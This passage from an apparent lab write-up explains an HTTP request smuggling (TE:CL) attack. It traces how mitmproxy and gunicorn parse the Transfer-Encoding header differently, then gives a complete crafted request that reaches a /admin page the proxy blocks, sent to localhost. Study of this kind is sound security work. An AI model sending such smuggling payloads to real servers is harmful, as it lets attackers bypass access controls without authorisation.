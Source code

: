 
```
4. This will return a HTTP message with the same server header as the one above but with ```gunicorn/20.0.4```.



5. We can go from there and search the source code for how it parses headers.

From mitm proxy:
``` python
if "chunked" in headers.get("transfer-encoding", "").lower():
        return None 
```
This means that mitm searches for chunked within the Transfer-encoding value.


From gunicorn:
``` python
elif name == "TRANSFER-ENCODING":
        if value.lower() == "chunked":
               chunked = True 
```
This means that gunicorn matches the whole value string to “chunked” different to mitm which searches for string in string.



## Exploitation

Now that we know that the servers are vulnerable to TE:CL attacks we can craft a HTTP request to exploit that. The Repeater feature of Burp Suite Community will be used to edit and send the request.

The HTTP request must utilize the fact that the proxy server will read the transfer encoding header and the backend server will read the Content length header.

The website has a /admin page which is inaccessible through the proxy so a request for that page must be smuggled to the back end where there are no security checks.

```
GET / HTTP/1.1
Host: 127.0.0.1:8001
Content-Length: 4
Transfer-Encoding: xxxchunkedxxx

15
GET /admin HTTP/1.1

16
Host: 127.0.0.1:8001


0

GET / HTTP/1.1
Host: 127.0.0.1:8001


```
The mitmproxy server will read the Transfer Encoding chunked header for 2 reasons:
The proxy server searches the TE header for “chunked: within the string rather than seeing if the whole string matches chunked
The RFC standards state that if both TE chunked and CL are given, TE chunked must be used.